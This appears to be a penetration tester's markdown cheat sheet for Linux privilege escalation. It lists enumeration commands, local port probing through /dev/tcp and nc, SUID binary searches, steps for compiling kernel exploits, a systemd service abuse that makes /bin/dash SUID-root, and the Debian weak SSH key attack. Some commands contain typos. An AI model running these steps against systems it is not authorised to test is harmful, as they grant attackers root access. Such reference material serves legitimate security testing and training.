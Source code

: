# Priv-Esc Linux

## **Tools**

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

---

## **Kernel Exploitation**

### Check version

```bash
uname -a
cat /etc/*release
cat /etc/issue
```

### Compile exploit

Compile for x86 on a x64 machine

```bash
sudo apt update && sudo apt install -y gcc-multilib 
gcc -Wl,--hash-style=both -m32 <exploit.c>
```

Cross-Compile for Windows from Linux

```bash
sudo apt update && sudo apt install -y mingw-w64
i686-w64-mingw32-gcc <exploit.c>
```

---

## **Programms running**

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

---

## **Services listening**

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

---

## **Binaries enum**

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

---

## **Docker**

```bash
# we look for docker.sock
find / -group docker -exec ls -la {} 2>/dev/null \;
```

---

## **Systemd**

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

---

## **Debian-ssh**

- [https://github.com/g0tmi1k/debian-ssh](https://github.com/g0tmi1k/debian-ssh)

```bash
git clone https://github.com/g0tmi1k/debian-ssh.git
de debian-ssh/our_tools/
tar xvjf ubunturoot.tar.bz2

cp dokeygen.sh 
chroot ubunturoot /dokeygen.sh 1 -t dsa -b 1024 -f /tmp/dsa_1024_1

ssh-keygen -l -E md5 -f ~/.ssh/id_rsa.

#add "PubkeyAcceptedKeyTypes +ssh-dss" into client ssh conf
#ssh -vvvvvvvvvvvvvvvvvvvvv helps to understand !
```


